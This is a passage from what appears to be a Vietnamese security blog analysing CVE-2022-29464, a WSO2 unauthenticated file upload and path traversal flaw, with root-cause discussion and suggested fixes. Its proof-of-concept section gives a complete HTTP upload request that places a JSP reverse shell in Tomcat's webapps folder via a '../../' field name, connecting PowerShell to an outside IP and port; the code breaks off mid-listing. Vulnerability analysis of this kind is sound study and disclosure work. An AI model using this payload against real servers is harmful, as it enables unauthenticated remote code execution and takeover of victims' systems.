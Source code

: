 ![image]({{ "/assets/img/2025-09-02-CVE-2022-29464/image31.png" | relative_url }})

![image]({{ "/assets/img/2025-09-02-CVE-2022-29464/image32.png" | relative_url }})

![image]({{ "/assets/img/2025-09-02-CVE-2022-29464/image33.png" | relative_url }})

---

**Tóm lại, root cause dẫn tới lỗi Path Traversal là tới từ việc sử dụng `new File(File parent, String child)`, với child `getFieldName()` nhận user input mà không được kiểm tra, sàng lọc kỹ lưỡng**

Ta có thể ngăn chặn việc bị Path Traversal này bằng cách sử dụng method `getCanonicalPath()`, method này sẽ remove tất cả `.` và `..` chỉ để lại absoulute path. Hoặc nếu vẫn muốn sử dụng như hiện tại, ta cần đảm bảo user input được sàng lọc cẩn thận bằng cách sử dụng whitelist để cho phép những ký tự an toàn.

---

Như vậy là thông qua Unauthenticated File Upload và Path Traversal, giờ mình đã có thể upload bất kỳ tệp gì lên server, vào bất cứ vị trí nào mình mong muốn. Giờ mình chỉ cần tìm một vị trí nào đó để upload một web shell và server thực thi nó là có thể RCE thành công

WSO2 chạy trên Tomcat, vì vậy nên đơn giản nhất là mình tìm vị trí thư mục này được đặt và upload các web shell vào đó, webapps của Tomcat giống như `var/www/html` của PHP, là root directory và mọi file (PHP và JSP/WAR tương ứng) được đặt vào đó đều có khả năng bị thực thi.

## IV. PoC - Proof of Concepts

Rev shell payload, Host server là Window nên cần sử dụng command của Powershell, cụ thể:

```
POST /fileupload/toolsAny HTTP/1.1
Host: 127.0.0.1:9443
User-Agent: hehe
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRXZulECZUI6kfQJ2
Content-Length: 1237

------WebKitFormBoundaryRXZulECZUI6kfQJ2
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/accountrecoveryendpoint/finalAnhcd3.jsp"; filename="finalAnhcd3.jsp"

<%@ page import="java.io.*,java.net.*" %>
<%
    String host = "161.248.30.56";
    int port = 1337;
    String cmd = "powershell";
    try {
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host, port);
        InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
        OutputStream po = p.getOutputStream(), so = s.getOutputStream();
        while (!s.isClosed()) {
            while (pi.available() > 0)
                so.write(pi.read());
            while (pe.available() > 0)
                so.write(pe.read());
            while (si.available() > 0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
```